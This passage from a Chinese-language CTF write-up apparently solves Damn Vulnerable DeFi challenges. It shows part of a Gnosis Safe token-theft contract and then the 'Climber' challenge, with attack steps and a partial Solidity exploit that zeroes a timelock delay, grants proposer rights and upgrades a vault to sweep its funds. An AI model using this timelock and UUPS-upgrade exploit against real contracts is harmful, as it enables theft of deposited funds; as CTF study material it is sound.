 ```
                                   address(0)
           );
           GnosisSafeProxy proxy=factory.createProxyWithCallback(singleton,initializer,0,callback);
           IERC20(token).transferFrom(address(proxy),tx.origin,10 ether);
        }
       
    }

}
```


![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/eba895c2166b4417955840fcb1dcfe91~tplv-k3u1fbpfcp-watermark.image?)


# 12 Climber
题目要求：清空保管库。

`climbervault`将所属权给了`climbertimelock`，要拿走他的钱得执行sweepFunds方法，然而我们又没有 onlySweeper的身份，不过`climbervault`又可以进行合约升级，那么将他进行升级重写改方法不就可以了。  

想要升级`climbervault`，得转战ClimberTimelock，我们发现只要又PROPOSER_ROLE的身份就可以进行提案，然后执行。同时我们要让delay变为0.

攻击步骤:  
1.让delay变为0  
2.给攻击合约proposer权限  
3.升级climbervalut合约覆盖掉sweepfunds方法  
4.执行sweepfunds把钱拿过来

但是在execute之前得让他们schedule
## 攻击代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "./ClimberTimelock.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./ClimberVault.sol";
contract attack6 is UUPSUpgradeable{
         ClimberTimelock  immutable timelock;
         address immutable vaultProxyAddress;
         IERC20 immutable token;
         address immutable attacker;
constructor(ClimberTimelock _timelock,address _vaultProxyAddress,IERC20 _token){
    timelock=_timelock;
     vaultProxyAddress = _vaultProxyAddress;
        token = _token;
        attacker = msg.sender;
}
function buildProposal() internal returns(address[]memory,uint256[]memory,bytes[]memory){
      address[] memory targets= new address[](5);
        uint256[] memory values =new uint256[](5);
        bytes[] memory dataElements=new bytes[](5);

        //升级delay为0
        targets[0]=address(timelock);
        values[0]=0;
        dataElements[0]=abi.encodeWithSelector(ClimberTimelock.updateDelay.selector,0);

        //给合约proposer角色
        targets[1]=address(timelock);
        values[1]=0;
```